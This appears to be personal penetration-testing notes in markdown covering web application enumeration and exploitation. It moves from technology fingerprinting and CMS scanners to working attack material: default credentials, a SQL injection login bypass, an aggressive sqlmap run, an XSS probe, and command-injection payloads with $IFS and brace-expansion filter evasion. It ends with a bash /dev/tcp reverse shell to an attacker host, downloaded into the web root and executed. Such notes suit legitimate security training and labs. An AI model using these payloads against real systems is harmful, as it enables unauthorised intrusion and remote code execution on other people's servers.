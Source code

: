 # First Steps
## Wappalyzer 
Shows which techologies were used to create the website
- Security
- Cloud
- CMS
- Language

### CMS Systems
#### WordPress (Open-Source)
Websites around blogging 
#### Magento (Open-Source)
Websites around shopping

## Check URL's
Click around the website and see how the folders are organized
> [!NOTE] 
> Check what the home folder is (Ex. index.php). \
> Index.php/folders are common in MVC frameworks like Codeigniter and Laravel
## Copyright 
The copyright at the bottom of the page typically indicates when the website was last updated. If you see an old copyright, the website will typically have old software.
> [!NOTE] 
> The website can be configured to pull the current date for the copyright
## Check for a CMS scanner 
Look for a scanner for the CMS that the website was created with.
- **WordPress**: wpscan
- **Magento**: magescan
```bash
php magescan.phar scan:all http://IP/
```

## Common Files
- **index.php**: tells you if it is a php website
- **robots.txt**: guide for search engine bots (telling them where not to go)
- **index.html**: default home page

# Next Steps
## Login Page 
### Try Default Creds 
admin:admin
> [!NOTE] 
> Look up default credentials based on the service
### SQL Injection
admin:' or 1=1;--
### SQLMap
1. Capture a login request with Burp and save it as log.req
2. Run SQL injection testing
```bash
sqlmap -r login.req --batch --dbs --level=3 --risk=3
```
> [!NOTE] 
> Cross Site Request Forgery (CSRF) Tokens are unique for each session/request and are validated server-side. This makes it hard for sqlmap to work properly.


> [!Caution]
> Running a high risk factor could negatively impact the server
### Forgot Password
See if you can validate email addresses.
### Sign Up 
Try to sign up for a new account

## Posts
### Cross-Site Scripting 
Attempt to Bold Text
```form
<b>TITLE/USERNAME</b>
```
### Check if there is a User-Agent 
Set up Listener on Attacking Machine
```bash
sudo nc -lvnp 80
```
In Post
```form
http://<ATTACKING_IP>/
```
Take note User-Agent (ex. Curl)
#### Curl
Ex. Request:
```bash
os.popen(curl $Content)
```
1. Check if you can download a file

(On Attacking Machine)
  ```bash
  echo "Test" > test
  ```
(Website: Post)
  ```form
  http://<ATTACKING_IP>/test -o /var/www/html/test
  ```
(Website)
Go to http://IP/test to see if the test file is there

2. Check if you can execute code

Proof of Concept:
  ```form
  http://<ATTACKING_IP>/$(whoami)
  ```
Burp Suite Repeater (Capture Request)

  Test
  ```form
  http://<ATTACKING_IP>/$(echo test)
  ```

  URL Encoding
  ```form
  http://<ATTACKING_IP>/$(echo+test)
  ```

  Bracket Expansion
  ```form
  http://<ATTACKING_IP>/$({echo,test})
  ```

  IFS Variable
  ```form
  http://<ATTACKING_IP>/$(echo$IFS'test')
  ```

3. Execute a Reverse shell
Reverse Shell
```File
bash -c 'bash -i &> /dev/tcp/<ATTACKING_IP>/<PORT> 0>&1'
```
Start Web Server 
```bash
sudo python3 -m http.server 80
```
Download Reverse Shell
```form
http://<ATTACKING_IP>/$(curl$IFS' -o'$IFS'/var/www/html/test'$IFS'http://ATTACKING_IP>/test')
```
Execute Reverse Shell
```form
http://<ATTACKING_IP>/$(bash$IFS'/var/www/html/test')
```
## Searchsploit
Search for CMS exploits with similar version numbers 
> [!NOTE]
> Compare creation_date/vendor_contact to copyright (creation after copyright)



